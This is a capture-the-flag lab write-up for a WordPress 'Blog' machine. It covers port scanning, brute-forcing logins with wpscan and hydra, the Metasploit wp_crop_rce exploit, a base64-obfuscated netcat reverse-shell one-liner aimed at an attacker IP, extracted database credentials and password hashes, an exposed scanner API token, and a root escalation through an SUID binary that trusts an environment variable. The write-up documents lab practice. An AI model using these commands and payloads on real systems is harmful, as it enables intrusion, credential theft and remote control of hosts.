## TL;DR

We can find `wordpress` web server, and brute force the password for `kwheel` user.
Then, we use known `RCE` on wordpress version to get shell as `www-data`.

We fetch the hash of `bjoel` from `wp-config.php` and move to `bjoel`.

Lastly, we get root shell using vulnerability on SUID binary `/st/sbin/checker`, by adding `admin` environment variable,

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -A
```



There is port `22` with ssh, port `80` with apache http server looks like `wordpress` and port `139` and `445` with SMB.
```bash
PORT    STATE SERVICE     REASON         VERSION                                                         
22/tcp  open  ssh         syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                                             
| ssh-hostkey:                                      
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)                                           
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3hfvTN6e0P9PLtkjW4dy+6vpFSh1PwKRZrML7ArPzhx1yVxBP7kxeIt3lX/qJWpxyhlsQwoLx8KDYdpOZlX5Br1PskO6H66P+AwPMYwooSq24qC/Gxg4NX9MsH/lzoKnrgLDUaAqGS5ugLw6biXITEVbxrjBNdvrT1uFR9sq+
Yuc1JbkF8dxMF51tiQF35g0Nqo+UhjmJJg73S/VI9oQtYzd2GnQC8uQxE8Vf4lZpo6ZkvTDQ7om3t/cvsnNCgwX28/TRcJ53unRPmos13iwIcuvtfKlrP5qIY75YvU4U9nmy3+tjqfB1e5CESMxKjKesH0IJTRhEjAyxjQ1HUINP
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)                                          
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJtovk1nbfTPnc/1GUqCcdh8XLsFpDxKYJd96BdYGPjEEdZGPKXv5uHnseNe1SzvLZBoYz7KNpPVQ8uShudDnOI=                                                
|   256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)                                        
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICfVpt7khg8YIghnTYjU1VgqdsCRVz7f1Mi4o4Z45df8                                                                                                                                
80/tcp  open  http        syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))                                  
| http-robots.txt: 1 disallowed entry               
|_/wp-admin/                                        
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog                                              
|_http-generator: WordPress 5.0                     
| http-methods:                                     
|_  Supported Methods: GET HEAD POST OPTIONS                                                             
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E                                    
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                             
139/tcp open  netbios-ssn syn-ack ttl 62 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                                                                                                                              
445/tcp open  netbios-ssn syn-ack ttl 62 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)                                                                                                                           
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port                                                                                                             
Device type: general purpose                        
Running: Linux 4.X                                  
OS CPE: cpe:/o:linux:linux_kernel:4.15              
OS details: Linux 4.15
```

Let's add `blog.thm` to our `/etc/hosts`.

### Brute force kwheel password

Inside the smb client, we can login anonysmouly, however, all the files there are scam, just rick roll or staff like this.
For example, this qr png:


Which gives us:
```bash
┌──(agonen㉿kali)-[~/thm/Blog]                                                                                                                               
└─$ zbarimg check-this.png                                                     
QR-Code:https://qrgo.page.link/M6dE
```

Which leads us to youtube, same as the dummy .mp4 file we find there.

Okay, I checked the website, and found this is really wordpress website.



Let's start with `wpscan` 
```bash
wpscan --url http://blog/ -e --api-token A84WpfaaDC3sbFc6WvqlVEvpe7hKJta06iTcavjE9Jw -o wpscan_results.txt
```

We can detect several users:
```bash
[i] User(s) Identified:

[+] bjoel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://blog/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] kwheel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://blog/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Aggressive Detection)
```



We can trying to brute force the password for these users:
```bash
wpscan --url http://blog.thm/ -U bjoel,kwheel -P /usr/share/wordlists/rockyou.txt --password-attack xmlrpc
```



Alternative, we could have uses `hydra` to brute force:
```bash
┌──(agonen㉿kali)-[~/thm/Blog]                                                                                                                               
└─$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=incorrect" -I     
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-
binding, these *** ignore laws and ethics anyway).                                                                                                           

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-11-25 16:07:46
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688798 login tries (l:2/p:14344399), ~1793050 tries per task
[DATA] attacking http-post-form://blog.thm:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=incorrect

[STATUS] 1026.00 tries/min, 1026 tries in 00:01h, 28687772 to do in 466:01h, 16 active
[STATUS] 1242.33 tries/min, 3727 tries in 00:03h, 28685071 to do in 384:50h, 16 active
[80][http-post-form] host: blog.thm   login: bjoel
[STATUS] 2049521.14 tries/min, 14346648 tries in 00:07h, 14342150 to do in 00:07h, 16 active
[80][http-post-form] host: blog.thm   login: kwheel   password: cutiepie1
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-11-25 16:16:02
```

These are the credentials we find:
```bash
kwheel:cutiepie1
```

Here is the dashboard.



### Use known RCE exploit at wordpress version to get shell as www-data

We can inspect `wpscan_results.txt` again, and find this authenticated `RCE` vulnerability.

```bash
| [!] Title: WordPress 3.7-5.0 (except 4.9.9) - Authenticated Code Execution                                                                                
 |     Fixed in: 5.0.1                                                                                                                                       
 |     References:                                                                                                                                           
 |      - https://wpscan.com/vulnerability/1a693e57-f99c-4df6-93dd-0cdc92fd0526                                                                              
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8942                                                                                       
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8943                                                                                       
 |      - https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/                                                                              
 |      - https://www.rapid7.com/db/modules/exploit/multi/http/wp_crop_rce
 ```



We can use the metasploit module, which is shown here [https://www.rapid7.com/db/modules/exploit/multi/http/wp_crop_rce](https://www.rapid7.com/db/modules/exploit/multi/http/wp_crop_rce), the module `multi/http/wp_crop_rce`.

So, we set up everything:
```bash
msf exploit(multi/http/wp_crop_rce) > show options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   cutiepie1        yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks5h, sapni, http, socks4, soc
                                         ks5
   RHOSTS     10.82.137.146    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-detection if provided)
   USERNAME   kwheel           yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.132.168  yes       The listen address (an interface may be specified)
   LPORT  1337             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```

And ready to attack:



### Find credentials at wp-config.php

Using the payload from `penelope` we can get the reverse shell on our penelope:
```bash
printf KHJtIC90bXAvXztta2ZpZm8gL3RtcC9fO2NhdCAvdG1wL198c2ggMj4mMXxuYyAxOTIuMTY4LjEzMi4xNjggNDQ0NCA+L3RtcC9fKSA+L2Rldi9udWxsIDI+JjEgJg==|base64 -d|sh
```

I tried to read `user.txt`, but i didn't get the flag



The linpeas gives us the credentials from `wp-config.php`
```bash
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-r----- 1 www-data www-data 3279 May 28  2020 /var/www/wordpress/wp-config.php                                                                                                                                                          
define('DB_NAME', 'blog');
define('DB_USER', 'wordpressuser');
define('DB_PASSWORD', 'LittleYellowLamp90!@');
define('DB_HOST', 'localhost');
```



The regular pass will be to fetch the hash of `bjeol` from the table `wp_users` at the local mysql server, and crack it:
```bash
mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
| ID | user_login | user_pass                          | user_nicename | user_email                   | user_url | user_registered     | user_activation_key | user_status | display_name  |
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
|  1 | bjoel      | $P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/ | bjoel         | nconkl1@outlook.com          |          | 2020-05-26 03:52:26 |                     |           0 | Billy Joel    |
|  3 | kwheel     | $P$BedNwvQ29vr1TPd80CDl6WnHyjr8te. | kwheel        | zlbiydwrtfjhmuuymk@ttirv.net |          | 2020-05-26 03:57:39 |                     |           0 | Karen Wheeler |
+----+------------+------------------------------------+---------------+------------------------------+----------+---------------------+---------------------+-------------+---------------+
2 rows in set (0.00 sec)
```

However, we can bypass this and jump directly to root.

### Privilege Escalation to Root using SUID on /usr/sbin/checker

We can find `/usr/sbin/checker`, which is unknown SUID binary.



I tried to execute this:
```bash
www-data@blog:/home/bjoel$ /usr/sbin/checker
Not an Admin
```

Then, I used `ltrace` to analyse the running:



We can see it checks if the environment variable `admin` exists.
Let's create it and execute again:
```bash
export admin=bla
```

We got root shell!



First, we need to find the user flag:
```bash
root@blog:/home/bjoel# find / -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
root@blog:/home/bjoel# cat /media/usb/user.txt
c8421899aae571f7af486492b71a8ab7
```




```bash
root@blog:/home/bjoel# cat /root/root.txt 
9a0b2b618bef9bfa7ac28c1353d9f318
```


